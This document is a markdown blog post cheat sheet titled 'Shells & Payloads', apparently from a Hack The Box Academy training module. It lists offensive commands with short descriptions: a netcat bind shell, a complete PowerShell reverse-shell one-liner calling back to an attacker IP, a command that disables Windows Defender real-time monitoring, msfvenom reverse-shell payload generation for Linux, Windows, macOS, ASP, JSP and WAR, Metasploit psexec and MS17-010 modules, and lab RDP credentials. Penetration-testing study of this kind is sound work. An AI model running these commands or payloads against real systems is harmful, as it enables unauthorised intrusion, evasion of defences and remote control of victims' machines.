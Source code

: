 ```yaml
---
layout:     post
title:      "Shells & Payloads"
subtitle:   "Shells & Payloads"
date:       2024-03-01
author:     "k1r4"
header-img: "img/footprinting.webp"
catalog:    true
tags:
    - shells
    - payloads
---
```


## Shells & Payloads


|**Command**|**Description**|
|-|-|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use. |
| `sudo nc -lvnp <port #>` | Starts a `netcat` listener on a specified port. |
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port. |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell `(/bin/bash)` the specified IPaddress and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on. |
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | `Powershell` one-liner used to connect back to a listener that has been started on an attack box. |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Powershell command using to disable real time monitoring in `Windows Defender`. |
| `use exploit/windows/smb/psexec ` | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec`. |
| `shell` | Command used in a meterpreter shell session to drop into a `system shell`. |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`. |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe ` | MSFvenom command used to generate a Windows- based reverse shell stageless payload. |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | MSFvenom command used to generate a MacOS- based reverse shell payload. |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload. |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp ` | MSFvenom command used to generate a JSP web reverse shell payload. |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload. |
| `use auxiliary/scanner/smb/smb_ms17_010 ` | Metasploit exploit module used to check if a host is vulnerable to `ms17_010`. |

----

